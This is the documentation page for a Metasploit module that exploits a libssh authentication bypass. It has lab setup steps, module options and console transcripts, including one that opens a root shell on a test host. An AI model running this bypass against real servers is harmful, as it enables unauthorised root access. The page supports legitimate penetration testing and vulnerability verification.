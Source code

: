 ## Intro

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. Versions 0.6 and later are affected.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `patch -p0 < /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Options

**CMD**

Set this to a command you want to execute in lieu of a standard shell
session. An `exec` channel request will be sent instead of a `shell`
request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for the `libssh` string. It's not sophisticated,
and the banner may be changed, but it may prevent false positives due to
how the OOB authentication packet always returns `true`.

## Usage

Testing against libssh 0.8.3:

```
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Negative testing against an insufficiently implemented libssh server:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```
